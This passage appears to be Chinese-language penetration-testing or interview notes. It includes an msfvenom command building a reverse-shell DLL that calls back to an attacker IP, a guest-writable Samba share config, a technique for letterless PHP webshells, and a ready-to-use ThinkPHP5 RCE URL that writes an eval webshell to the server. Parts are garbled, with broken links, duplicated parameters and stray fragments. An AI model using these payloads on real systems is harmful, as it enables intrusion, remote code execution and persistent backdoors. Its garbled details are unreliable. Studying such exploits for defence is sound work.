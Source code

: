 msfvenom -f dll -p windows/x64/shell\_reverse\_tcp LHOST=192.168.133.145 LPORT=3333 -o reverse.dll

**SMB 配置**

at /etc/samba/smb.conf

\[global\] map to guest = Bad User server role = standalone server usershare allow guests = yes idmap config \* : backend = tdb smb ports = 445

\[smb\] comment = Samba path = /tmp/ guest ok = yes read only = no browsable = yes force user = smbuser

## 无字母webshell

异或的过程就是将字符转化为ascii，再变为二进制进行异或 这里就是将"A"的Ascii码的二进制与"?"的Ascii码的二进制进行异或得到一个新的二进制，在变为Ascii码，最后在变为字符，也就是~

首先我们实现构造assert($_POST\[_\]);

三.变量自增 ‘a’++ => ‘b’，‘b’++ => ‘c’ 根据字母之间的ascii码的关系，知道一个a就可以得到a-z中的所有字符 下面就是考虑如何得到a 数组（Array）的第一个字母就是大写A，而且第4个字母是小写a。也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母。 在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为Array：

## thinkphp的漏洞

**thinkphp数据库驱动一般用的什么？**

session驱动,Mysql、SqlServer、PgSQL、Sqlite、Oracle、Ibase、Mongo(都支持)

默认的数据库驱动位于`Think\Db\Driver`命名空间下面，驱动类必须继承`Think\Db`类，每个数据库驱动必须要实现的接口方法包括（具体参数可以参考现有的数据库驱动类库）：

**thinkphp支持多sql语句执行吗？**

不支持

**thinkphp5的RCE漏洞了解过吗？**

了解过

**RCE：文件上传**

[http://www.tp5\_0.com/index.php?s=index/](http://t.csdn.cn/index.php?s=index/ "http://www.tp5_0.com/index.php?s=index/")\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=file\_put\_contents&vars1\=./2021\_07\_27.php&vars1\=%3C?php%20eval($\_GET\[1\]);?%3E&XDEBUG\_SESSION\_START=PHPSTORM

s参数中传递的值 被thinkphp5 解析成为module,controller以及方法 s=index/\\think\\app/invokefunction&function=call\_user\_func\_array&vars\[0\]=phpinfo&vars1\=1

模块对应的 index controller \\think\\app action invokefunction

通过ReflectionMethod调用位于\\think\\app类下的invokefunction成员方法. 又发现在\\think\\app类下的Invokefunction成员函数,传递了对应的想要执行的call\_user\_func\_array函数

$args = array( 'call\_user\_func\_array', array('phpinfo', array(1) ));

$function = $args\[0\] $vars = $args\[1\]

return $reflect->invokeArgs($args);

$args = array('phpinfo', array('1'));
